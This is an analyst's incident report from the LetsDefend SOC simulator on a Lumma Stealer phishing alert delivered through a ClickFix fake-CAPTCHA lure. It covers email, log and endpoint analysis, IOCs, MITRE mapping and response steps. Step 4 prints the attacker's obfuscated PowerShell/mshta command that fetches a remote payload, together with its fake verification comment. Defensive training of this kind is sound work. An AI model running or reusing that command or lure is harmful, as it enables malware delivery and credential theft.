






# SOC Investigation Report
## SOC338 - Lumma Stealer - DLL Side-Loading via Click Fix Phishing

---

| Field | Details |
|---|---|
| **Event ID** | 316 |
| **Alert Name** | SOC338 - Lumma Stealer - DLL Side-Loading via Click Fix Phishing |
| **Severity** | 🔴 Critical |
| **Category** | Data Leakage |
| **Alert Time** | March 13, 2025 - 09:44 AM |
| **Analyst Level** | Security Analyst |
| **Status** | True Positive - Closed |

---

## 1. Executive Summary

On March 13, 2025 at 09:44 AM, a critical alert was triggered by rule **SOC338**, flagging a phishing email delivered to internal user **dylan@letsdefend.io**. The email originated from a spoofed sender address **update@windows-update.site** and was routed through SMTP server **132.232.40.201**. The email used a social engineering lure promising a free upgrade to Windows 11 Pro.

Investigation confirmed that the recipient opened the email and clicked the embedded link, leading them to a malicious site deploying a **ClickFix** technique to execute Lumma Stealer via DLL side-loading. Endpoint analysis revealed active compromise, with malicious processes spawned shortly after the link was visited. The affected host was quarantined, the email was deleted from the mailbox, and the alert was formally closed as a **True Positive**.

---

## 2. Alert Details

```
SMTP Address       : 132.232.40.201
Source Address     : update@windows-update.site
Destination        : dylan@letsdefend.io
Subject            : Upgrade your system to Windows 11 Pro for FREE
Device Action      : Allowed
Trigger Reason     : Redirected site contains a ClickFix type script for Lumma Stealer distribution
```

---


## 3. Investigation Steps

### Step 1 - Email Analysis (Mailbox Review)

The first action was to pull up the alert in the **Email Security** section of the SIEM and examine the flagged message directly.

**Findings:**
- The email was confirmed as **delivered** to `dylan@letsdefend.io` - it was not blocked or quarantined
- Sender address: `update@windows-update.site` - a domain crafted to impersonate Microsoft's update infrastructure
- Subject line: *"Upgrade your system to Windows 11 Pro for FREE"* - a classic urgency and benefit-based social engineering lure
- Device action logged as **Allowed**, meaning the email bypassed mail filtering controls



The sender domain `windows-update.site` is not affiliated with Microsoft in any way. The `.site` TLD combined with the hyphenated structure is a well-known phishing domain pattern.

---

### Step 2 - Sender Domain Threat Intelligence

The sender domain **windows-update.site** and the SMTP IP **132.232.40.201** were submitted to available threat intelligence platforms.

**Findings:**
- The domain `windows-update.site` returned a confirmed threat tag of **"Lumma Stealer"** on the threat intelligence platform - unambiguously linking this sender infrastructure to active malware distribution


- The SMTP IP `132.232.40.201` resolved to infrastructure associated with **AS 45090 (Shenzhen Tencent Computer Systems / China)**, with **2** security vendors flagging it as malicious



This confirmed the phishing origin and established the email as malicious before even examining the payload or endpoint.

---

### Step 3 - Log Management (Did the Recipient Click the Link?)

With the email confirmed as malicious, the next critical question was: **did Dylan actually interact with it?**

Log Management was queried for activity from `dylan@letsdefend.io`'s associated workstation around the alert timestamp of **09:44 AM on March 13, 2025**.

**Findings:**
- Logs confirmed that the recipient **visited the link embedded in the email**
- The outbound web request was logged, showing the user's browser navigated to the malicious domain shortly after the email was received



This escalated the investigation from a suspicious email to an **active potential compromise**. Endpoint analysis was immediately prioritised.

---

### Step 4 - Endpoint Analysis (Process Investigation)

Navigating to **Endpoint Security**, Dylan's host was examined for process activity around the timestamp captured in the logs.

**Findings:**

Two immediately suspicious patterns were identified:

1. **Multiple `chrome.exe` processes** running concurrently - consistent with the browser being active and the malicious page being loaded



2. **`explorer.exe` spawning `powershell.exe`** - a high-confidence malicious indicator, as Windows Explorer should never legitimately launch PowerShell directly

The PowerShell process carried the following command-line arguments:

```
"C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -w 1 powershell -Command 
('ms]]]ht]]]a]]].]]]exe https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4' -replace ']') 
# ✅ 'I am not a robot - reCAPTCHA Verification ID: 3824'
```
> DO NOT RUN THIS COMMAND ON YOUR TERMINAL



**Command breakdown:**

| Component | Meaning |
|---|---|
| `-w 1` | Runs PowerShell in hidden window mode (minimised, not visible to user) |
| `('ms]]]ht]]]a]]]...]]]exe ... ' -replace ']')` | Obfuscation technique - the brackets are stripped at runtime to reconstruct `mshta.exe`, a legitimate Windows binary used to execute remote scripts |
| `https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4` | Remote payload URL - disguised as an MP4 file but actually an HTA script or executable |
| `# ✅ 'I am not a robot - reCAPTCHA Verification ID: 3824'` | The ClickFix fake CAPTCHA lure - this text was displayed to the user to make the clipboard command appear legitimate |

This is a textbook **ClickFix execution chain**: the user was tricked into thinking they were completing a CAPTCHA verification, while in reality they pasted and executed a heavily obfuscated command that fetched a remote payload using `mshta.exe`.



---

### Step 5 - Payload URL Analysis (overcoatpassably.shop)

The payload URL **`https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4`** was submitted to **ANY.RUN** for sandboxed dynamic analysis.

**Findings:**
- The domain `overcoatpassably.shop` was flagged as **malicious**
- The file served at the endpoint, despite the `.mp4` extension, was not a video file - it was a script or executable consistent with **Lumma Stealer payload delivery**
- ANY.RUN's sandbox confirmed malicious behaviour: network callbacks, process injection indicators, and data collection activity characteristic of Lumma Stealer

The `mshta.exe` binary - a legitimate Microsoft HTML Application host - was being abused to fetch and execute the remote HTA payload, a well-documented living-off-the-land (LotL) technique that leverages trusted system tools to bypass application whitelisting and endpoint detection.

---

## 4. Attack Chain Summary

```
[Phishing Email Delivered]
update@windows-update.site → dylan@letsdefend.io
Subject: "Upgrade your system to Windows 11 Pro for FREE"
         │
         ▼
[User Clicks Link in Email]
Browser navigates to malicious landing page
         │
         ▼
[ClickFix Social Engineering]
Fake reCAPTCHA page → silently copies obfuscated PowerShell command to clipboard
User told to press Win+R and paste → executes command themselves
         │
         ▼
[explorer.exe → powershell.exe]
Obfuscated command deobfuscates and calls mshta.exe
mshta.exe fetches: overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4
         │
         ▼
[Lumma Stealer Payload Executed]
DLL side-loading via legitimate host binary
Credential harvesting, browser data theft, C2 communication
         │
         ▼
[Containment]
Host quarantined | Email deleted | Alert closed as True Positive
```

---

## 5. Indicators of Compromise (IOCs)

| Type | Value | Verdict |
|---|---|---|
| Sender Email | `update@windows-update.site` | Malicious - Phishing |
| Sender Domain | `windows-update.site` | Malicious - Lumma Stealer tag |
| SMTP IP | `132.232.40.201` | Malicious - Flagged by threat intel |
| Payload Domain | `overcoatpassably.shop` | Malicious - Confirmed by ANY.RUN |
| Payload URL | `https://overcoatpassably.shop/Z8UZbPyVpGfdRS/maloy.mp4` | Malicious - Lumma Stealer delivery |
| Malicious Process | `explorer.exe → powershell.exe` | Suspicious parent-child relationship |
| LOLBIN Abused | `mshta.exe` | Used to fetch and execute remote payload |

---

## 6. MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Initial Access | Phishing (Spearphishing Link) | [T1566.002](https://attack.mitre.org/techniques/T1566/002/) |
| Execution | User Execution - Malicious Link | [T1204.001](https://attack.mitre.org/techniques/T1204/001/) |
| Execution | Command and Scripting Interpreter - PowerShell | [T1059.001](https://attack.mitre.org/techniques/T1059/001/) |
| Defense Evasion | Obfuscated Files or Information | [T1027](https://attack.mitre.org/techniques/T1027/) |
| Defense Evasion | System Binary Proxy Execution - Mshta | [T1218.005](https://attack.mitre.org/techniques/T1218/005/) |
| Defense Evasion | DLL Side-Loading | [T1574.002](https://attack.mitre.org/techniques/T1574/) |
| Collection | Credentials from Web Browsers | [T1555.003](https://attack.mitre.org/techniques/T1555/003/) |
| Exfiltration | Exfiltration Over C2 Channel | [T1041](https://attack.mitre.org/techniques/T1041/) |

---

## 7. Response Actions Taken

| Action | Details |
|---|---|
| ✅ Email deleted from mailbox | Removed the phishing email from Dylan's inbox to prevent re-access or forwarding |
| ✅ Host quarantined | Dylan's endpoint was isolated from the network to prevent lateral movement and ongoing C2 communication |
| ✅ Malicious processes terminated | Malicious PowerShell/mshta activity halted via endpoint controls |
| ✅ IOCs documented | All identified IOCs recorded for blocklisting and future detection tuning |
| ✅ Alert closed | Alert closed as **True Positive** via the LetsDefend playbook |

---

## 8. Recommendations

1. **Block sender domain and IP at the mail gateway** - Add `windows-update.site` and `132.232.40.201` to the email blocklist immediately.

2. **Block payload domains at the perimeter firewall/proxy** - Add `overcoatpassably.shop` to URL and DNS blocklists across the environment.

3. **Hunt for lateral spread** - Query SIEM and endpoint telemetry for any other hosts that communicated with `overcoatpassably.shop` or executed `mshta.exe` with external URLs around this timeframe.

4. **Credential reset for affected user** - Dylan's credentials, browser sessions, and saved passwords should be considered fully compromised. Force password reset and invalidate active sessions.

5. **User awareness training** - Conduct targeted phishing awareness training focused on ClickFix / fake CAPTCHA social engineering, which does not require the user to click a traditional attachment - only to paste a command.

6. **Detection rule enhancement** - Create or tune SIEM/EDR rules to alert on `explorer.exe` spawning `powershell.exe` and on `mshta.exe` making outbound network connections.

7. **Email gateway hardening** - Review SPF, DKIM, and DMARC policies. Implement attachment sandboxing and link-click rewriting/scanning for all inbound email.

---

## 9. Conclusion

This alert is confirmed as a **True Positive**. A real user received and interacted with a phishing email deploying the Lumma Stealer infostealer via a ClickFix social engineering technique. The attacker leveraged the trusted Windows binary `mshta.exe` (a living-off-the-land technique) and command obfuscation to bypass defenses, ultimately executing a remote payload designed to harvest credentials and sensitive browser data.

Swift detection via the SIEM rule, combined with log and endpoint correlation, allowed the analyst to confirm active compromise, contain the affected host, and close the incident before wider damage could occur.

**Verdict: True Positive | Severity: Critical | Action: Contained**

---

*Report authored by: Kendrick | SOC Analyst*
*Investigation Date: March 13, 2025*
*Platform: LetsDefend SOC Simulator*
